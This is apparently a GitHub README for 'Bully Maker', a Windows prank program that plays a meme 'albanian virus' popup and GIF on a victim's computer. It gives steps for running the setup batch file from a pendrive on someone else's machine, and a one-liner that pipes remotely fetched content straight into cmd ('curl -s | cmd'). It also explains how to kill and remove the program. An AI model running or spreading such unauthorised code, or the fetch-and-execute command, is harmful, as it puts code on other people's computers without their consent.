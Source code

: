 #Bully Maker

A program that bullies the victim computer with a meme albanian virus and a sussy hacker gif

Inspiration for albanian virus:
https://www.reddit.com/r/funny/comments/3l65rp/albanian_virus/

##Requirements
-Windows operating system
-Access to the victim computer for a few minutes

##Usage

-Copy the setup.bat and bully.gif to a pendrive
-Open the pendrive in the victim's computer and run the setup file
-Enter the time you want the program to wait, as you would wish the program to
run while the computer is being used. the default waiting time is 120 seconds
that is 2 minutes.
-After the setup is completed unplug the pendrive, and after the timeout is 
completed, the meme virus will detonate.

##FAQs
1) Is this harmful?
A) Not really

2) How to stop the program?
A) The program doesn't stop by itself, you will need open task manager and kill the vbs task.
If you cannot do that, the only option is to restart the computer.

3) How to uninstall the virus?
A) Go to the temp folder by typing `cd %tmp%` and delete the folder named
bully by running `rmdir /s bully`

##miscellaneous
If you do not wish to use a pendrive and the victim computer has internet connection
you can also run the below command in cmd

`curl -s | cmd`